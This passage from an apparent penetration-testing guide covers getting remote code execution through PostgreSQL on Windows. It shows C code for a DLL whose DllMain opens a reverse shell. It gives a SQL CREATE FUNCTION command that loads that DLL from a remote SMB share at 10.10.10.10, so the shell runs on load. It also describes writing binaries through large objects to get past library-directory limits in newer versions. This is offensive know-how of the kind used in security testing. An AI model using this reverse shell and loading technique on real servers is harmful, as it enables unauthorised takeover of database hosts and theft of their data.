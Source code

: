 ```c

    WSAConnect(wsock, (SOCKADDR*)&server, sizeof(server),
              NULL, NULL, NULL, NULL);

    memset(&startupinfo, 0, sizeof(startupinfo));
    startupinfo.cb = sizeof(startupinfo);
    startupinfo.dwFlags = STARTF_USESTDHANDLES;
    startupinfo.hStdInput = startupinfo.hStdOutput =
                            startupinfo.hStdError = (HANDLE)wsock;

    CreateProcessA(NULL, program, NULL, NULL, TRUE, 0,
                  NULL, NULL, &startupinfo, &processinfo);

    return TRUE;
}

#pragma warning(pop) /* re-enable 4996 */

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum dummy_function(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(add_one);

Datum dummy_function(PG_FUNCTION_ARGS)
{
    int32 arg = PG_GETARG_INT32(0);

    PG_RETURN_INT32(arg + 1);
}
```

Note how in this case the **malicious code is inside the DllMain function**. This means that in this case it isn't necessary to execute the loaded function in postgresql, just **loading the DLL** will **execute** the reverse shell:

```c
CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS '\\10.10.10.10\shared\dummy_function.dll', 'dummy_function' LANGUAGE C STRICT;
```

The [PolyUDF project](https://github.com/rop-la/PolyUDF) is also a good starting point with the full MS Visual Studio project and a ready to use library (including: _command eval_, _exec_ and _cleanup_) with multiversion support.

### RCE in newest Prostgres versions

In the **latest versions** of PostgreSQL, restrictions have been imposed where the `superuser` is **prohibited** from **loading** shared library files except from specific directories, such as `C:\Program Files\PostgreSQL\11\lib` on Windows or `/var/lib/postgresql/11/lib` on \*nix systems. These directories are **secured** against write operations by either the NETWORK_SERVICE or postgres accounts.

Despite these restrictions, it's possible for an authenticated database `superuser` to **write binary files** to the filesystem using "large objects." This capability extends to writing within the `C:\Program Files\PostgreSQL\11\data` directory, which is essential for database operations like updating or creating tables.
